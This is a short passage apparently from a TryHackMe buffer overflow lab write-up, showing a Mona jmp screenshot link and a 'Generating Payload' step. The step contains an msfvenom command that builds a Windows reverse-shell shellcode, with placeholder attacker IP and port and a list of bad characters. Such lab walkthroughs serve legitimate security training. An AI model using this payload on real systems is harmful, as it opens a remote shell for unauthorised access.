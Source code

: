 ![Mona jmp](/images/THM/buffprep/of4/Captura8.PNG)

##### Generating Payload

It's time to generate the payload.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00,\xa9,\xcd,\xd4" -f c
```
